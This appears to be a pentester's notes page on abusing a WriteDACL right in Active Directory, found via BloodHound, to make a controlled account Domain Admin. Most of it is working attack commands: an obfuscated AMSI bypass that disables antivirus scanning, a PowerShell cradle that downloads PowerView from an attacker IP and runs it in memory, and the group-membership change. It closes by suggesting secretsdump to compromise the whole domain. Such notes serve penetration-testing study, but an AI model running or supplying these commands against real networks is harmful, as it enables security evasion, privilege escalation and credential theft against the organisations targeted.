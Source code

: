 # WriteDACL Exploitation

![[img/bloodhound-writedacl.png]]

We can see that the Domain Group "SQL Admin" have WriteDACL right against "WebAdmins" group. And WebAdmins group is member of Domain Admin, so if we are part of WebAdmins we are DA.

Assuming that we got an user inside the SQL Admin group, we can exploit the WriteDACL right to add an user that we already have access, to the WebAdmins group to become DA.

1. As user of SQL Admin group add an user that we already have access to, to the Web Admins group giving him all rights.

```bash
# As the user of SQL Admin group
C:\>powershell.exe -nop -exec bypass

PS C:\> $a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)

PS C:\> (new-object system.net.webclient).downloadstring('http://192.168.x.x:8080/PowerView.ps1') | iex

PS C:\> Add-DomainGroupMember -Identity 'WEBADMINS' -Members 'V0lk3n' -Rights all
```

2. Verify that V0lk3n is part of WebAdmins group.

```PowerShell
PS C:\> Get-DomainUser -Identity V0lk3n
Get-DomainUser -Identity will
...
givenname             : V0lk3n
memberof              : CN=WebAdmins,OU=TGroups,DC=sinhack,DC=com
...
```

3. Now as DomainAdmin we can fire up SecretDump or whatever and pwn all the domain.
